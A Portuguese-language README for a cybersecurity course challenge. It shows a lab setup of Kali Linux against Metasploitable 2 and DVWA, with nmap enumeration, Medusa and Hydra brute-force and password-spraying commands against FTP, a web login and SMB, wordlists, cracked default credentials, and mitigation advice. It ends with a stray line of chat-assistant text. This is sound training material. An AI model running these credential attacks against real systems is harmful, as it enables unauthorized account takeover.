









# ⚠️ Desafio Ataque de Força Bruta - Santander Cibersegurança 2025

## 🎯 Definições e Objetivo

Implementar, documentar e compartilhar um projeto prático utilizando Kali Linux e a ferramenta Medusa, em conjunto com ambientes vulneráveis (por exemplo, Metasploitable 2 e DVWA), para simular cenários de ataque de força bruta e exercitar medidas de prevenção.

> 💡 Este desafio é flexível! Você pode seguir os cenários propostos (FTP, DVWA, SMB) ou adaptar à sua realidade: experimentar outras ferramentas, criar novas wordlists, explorar módulos/serviços diferentes, ou apenas documentar em detalhes o que aprendeu, com estudos, reflexões e exemplos de código. O mais importante é demonstrar seu entendimento e compartilhar sua jornada de aprendizado!

## 1 - Configuração do Ambiente de Laboratório

### 1.1 Baixar e Instalar o VirtualBox

- [Baixar VirtualBox](https://www.virtualbox.org/wiki/Downloads)
- [Manual de Instalação (PDF)](https://download.virtualbox.org/virtualbox/7.2.2/UserManual.pdf)

### 1.2 Baixar ISO e Criar duas Máquinas Virtuais (VM)

- **VM1 - Kali Linux**  
  - [Download Kali Linux](https://www.kali.org/get-kali/)  
  - [Ver aula: *Preparando o ambiente com Kali e Metasploitable 2](https://web.dio.me/lab/criando-um-ataque-de-brute-force-de-senhas-com-medusa-e-kali-linux/learning/8984ac93-a831-4c59-99ba-46619fcb779c?back=/track/santander-ciberseguranca-2025)

- **VM2 - Metasploitable 2**  
  - [Download Metasploitable 2](https://sourceforge.net/projects/metasploitable/)  
  - [Ver aula: *Preparando o ambiente com Kali e Metasploitable 2](https://web.dio.me/lab/criando-um-ataque-de-brute-force-de-senhas-com-medusa-e-kali-linux/learning/8984ac93-a831-4c59-99ba-46619fcb779c?back=/track/santander-ciberseguranca-2025)

> Verifique se ambas as VMs estão na mesma rede (host-only).

Use `ifconfig` ou `ip a` para verificar o IP da VM2 (Metasploitable 2), geralmente `192.168.56.102`.

  


### 1.3 Testar a Conectividade entre as VMs

Na VM1 (Kali Linux):

```bash
ping -c 3 192.168.56.102
```



---

## 2 - Enumeração Inicial

Utilize o `nmap` para descobrir serviços abertos:

```bash
nmap -sV -p 21-445 192.168.56.102
```

Serviços esperados:

- FTP (21)
- SSH (22)
- TELNET (23)
- SMTP (25)
- DOMAIN (53)
- HTTP (80 → DVWA)
- RPCBIND (111)
- SMB (139/445)



---

## 3 - Ataques com Medusa e Hydra

> O Medusa já vem instalado no Kali Linux.

### 3.1 Ataque ao FTP

**Wordlists:**

```txt
# users.txt
user
msfadmin
admin
root

# pass.txt
123456
password
qwerty
msfadmin
```

**Criação das listas:**

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

**Ataque com Medusa:**

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
```

✅ Resultado esperado:

```
ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```



---

### 3.2a Ataque ao DVWA com Medusa

1. Acesse: `http://192.168.56.102/dvwa/login.php`
2. Login padrão: `admin:password`
3. Configure a segurança para **Low**
4. Identifique os parâmetros do formulário: `username`, `password`, `Login`

**Comando Medusa:**

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \
  -m PAGE:/dvwa/login.php \
  -m FORM:"username=^USER^&password=^PASS^&Login=Login" \
  -m FAIL:"Login failed" \
  -t 6
```



---

### 3.2b Ataque ao DVWA com Hydra

**Comando Hydra:**

```bash
hydra -L users.txt -P pass.txt -t 4 192.168.56.102 http-post-form \
"/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V
```

Resultado esperado:

```
[80][http-post-form] host: 192.168.56.102   login: admin  password: password
```



---

### 3.3 Ataque SMB com Password Spraying

#### 3.3.1 Enumeração de Usuários

```bash
enum4linux -a 192.168.56.102 | tee enum4_output.txt
less enum4_output.txt
```



#### 3.3.2 Ataque com Medusa

**Wordlists:**

```txt
# smb_users.txt
user
msfadmin
service

# senhas_spray.txt
password
123456
Welcome123
nmsfadmin
```

**Criação das listas:**

```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt
```

**Ataque:**

```bash
medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

Resultado esperado:

```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin
```



---

## Aprendizados

Apesar de eficaz em protocolos como FTP, SSH, SMB e Telnet, o Medusa apresenta limitações em ataques a formulários HTTP POST:

1. **Suporte limitado a HTTP**: não lida bem com redirecionamentos, cookies ou JavaScript.
2. **Tokens dinâmicos**: não interpreta ou atualiza CSRF tokens.
3. **Módulo inexistente**: `http-form` não existe no Medusa.
4. **Erros frequentes**: interpreta incorretamente respostas válidas como erros.

**Ferramentas mais eficazes para formulários web:**

| Ferramenta     | Vantagens principais |
|----------------|----------------------|
| Hydra          | Suporte nativo a `http-post-form` |
| Burp Suite     | Manipulação de tokens, cookies e headers |
| WFuzz          | Fuzzing de parâmetros web |
| Patator        | Modular e adaptável a HTTP |

---

## Recomendações de Mitigação

- **FTP**: Substituir por SFTP/FTPS. Desativar se não for essencial.
- **DVWA**: Nunca expor em produção. Usar autenticação forte e bloqueio após tentativas.
- **SMB**: Remover contas padrão (`msfadmin`, `user`), usar senhas fortes e segmentar a rede.
- **Geral**: Monitorar logs de autenticação e aplicar políticas de senhas robustas.

---

## Documentações Oficiais

- [Kali Linux – Site Oficial](https://www.kali.org/)
- [DVWA – Damn Vulnerable Web Application](https://github.com/digininja/DVWA)
- [Medusa – Documentação](https://tools.kali.org/password-attacks/medusa)
- [Nmap – Manual Oficial](https://nmap.org/book/man.html)
- [Hydra – Documentação](https://github.com/vanhauser-thc/thc-hydra)

```

Se quiser, posso ajudar a criar a estrutura de pastas e arquivos para um repositório GitHub completo com esse conteúdo. É só dizer!
